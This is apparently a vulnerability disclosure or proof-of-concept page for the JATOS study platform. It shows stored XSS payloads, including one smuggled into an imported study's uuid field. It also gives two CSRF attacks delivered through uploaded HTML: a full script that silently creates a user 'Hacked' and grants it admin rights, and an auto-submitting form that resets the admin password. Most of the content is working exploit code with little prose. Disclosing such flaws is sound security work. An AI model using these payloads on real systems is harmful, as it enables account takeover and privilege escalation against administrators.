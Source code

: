 ## First | Stored XSS - Description

```
<script>alert(1)</script>
```

----------------------------------------------------------------------------------------

## Second | Stored XSS - Importing Study

```
{"version":"3","data":{"uuid":"UUID NUMBER","title":"testing","description":"","groupStudy":false,"linearStudy":false,"allowPreview":true,"dirName":"admin","comments":"","jsonData":null,"endRedirectUrl":"","studyEntryMsg":"hi guys","componentList":[],"batchList":[{"uuid":"12345","title":"Default","active":true,"maxActiveMembers":null,"maxTotalMembers":null,"maxTotalWorkers":null,"allowedWorkerTypes":["PersonalSingle","Jatos","PersonalMultiple"],"comments":null,"jsonData":null}]}}

----------------------------------------------------------------------------------

{"version":"3","data":{"uuid":"<script>alert(1)</script>","title":"testing","description":"","groupStudy":false,"linearStudy":false,"allowPreview":true,"dirName":"admin","comments":"","jsonData":null,"endRedirectUrl":"","studyEntryMsg":"hi guys","componentList":[],"batchList":[{"uuid":"12345","title":"Default","active":true,"maxActiveMembers":null,"maxTotalMembers":null,"maxTotalWorkers":null,"allowedWorkerTypes":["PersonalSingle","Jatos","PersonalMultiple"],"comments":null,"jsonData":null}]}}
```

---

## Third | CSRF - Create Admin User (XSS from HTML file)

In this example, we exploit the vulnerability to create new users with administrative privileges by combining an XSS flaw with the lack of CSRF protection. An attacker can inject malicious JavaScript into an uploaded HTML file and deliver a link to the administrator. When the administrator accesses the link, the script executes, creating new admin users. This demonstrates the critical need for CSRF tokens to secure administrative actions.

Even if all XSS vulnerabilities are patched, allowing users to upload HTML files still poses a risk. Users can directly embed JavaScript in these files, which, if misused, can lead to account takeovers and other exploits. The core issue isn't just executing JavaScript but the absence of CSRF protection. Without CSRF tokens, attackers can leverage uploaded files to perform unauthorized actions, such as creating new admin users or changing passwords. Proper CSRF protection is vital to prevent these attacks.

HTML file
```
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Post Request via iframe</title>
</head>
<body>
  <iframe name="postIframe" style="display:none;"></iframe>
  <iframe name="postIframetimeout" style="display:none;"></iframe>

  <script>
    function postRequestInIframe() {
      var form = document.createElement('form');
      form.method = 'POST';
      form.action = 'http://localhost:9000/jatos/user';
      form.target = 'postIframe';

      var usernameInput = document.createElement('input');
      usernameInput.type = 'hidden';
      usernameInput.name = 'username';
      usernameInput.value = 'Hacked';
      form.appendChild(usernameInput);

      var nameInput = document.createElement('input');
      nameInput.type = 'hidden';
      nameInput.name = 'name';
      nameInput.value = 'name123';
      form.appendChild(nameInput);

      var emailInput = document.createElement('input');
      emailInput.type = 'hidden';
      emailInput.name = 'email';
      emailInput.value = 'email@gmail.com';
      form.appendChild(emailInput);

      var authByLdapInput = document.createElement('input');
      authByLdapInput.type = 'hidden';
      authByLdapInput.name = 'authByLdap';
      authByLdapInput.value = 'false';
      form.appendChild(authByLdapInput);

      var passwordInput = document.createElement('input');
      passwordInput.type = 'hidden';
      passwordInput.name = 'password';
      passwordInput.value = 'password123';
      form.appendChild(passwordInput);

      document.body.appendChild(form);
      form.submit();

      document.body.removeChild(form);
    }

    // Trigger the first request immediately
    postRequestInIframe();

    // Wait 3 seconds and trigger the second request
    setTimeout(function postRequestInIframeaftertimeout() {
      var form = document.createElement('form');
      form.method = 'POST';
      form.action = 'http://localhost:9000/jatos/user/hacked/properties/role?role=ADMIN&value=true';
      form.target = 'postIframetimeout';

      document.body.appendChild(form);
      form.submit();

      document.body.removeChild(form);
    }, 3000); // Executes after 3000ms (5 seconds)
  </script>
</body>
</html>
```

Make 2 POST requests (Use the link generator to deliver the payload)
- Create User: Hacked
- Give the user "Hacked" admin right

---

## Fourth | CSRF - Reset Admin Password (XSS from HTML file)

```
<form action='http://localhost.com:9000/jatos/user/passwordByAdmin' method='POST'>
    <input type='hidden' name='newPassword' value='adminadmin'>
    <input type='hidden' name='username' value='admin'>
    <button type='submit'>Submit</button>
</form>

---------------------------------------------------------------------------------

<form action='http://localhost:9000/jatos/user/passwordByAdmin' method='POST'>
    <input type='hidden' name='newPassword' value='adminadminadmin'>
    <input type='hidden' name='username' value='admin'>
    <button id='submitButton' type='submit' style='display:none;'>Submit</button>
    <script>
        setTimeout(function() {
            document.getElementById('submitButton').click();
        }, 3000); // 3000 milliseconds = 3 seconds
    </script>
</form>
```

Make 1 POST requests (Use the link generator to deliver the payload)
- Reset Admin Password
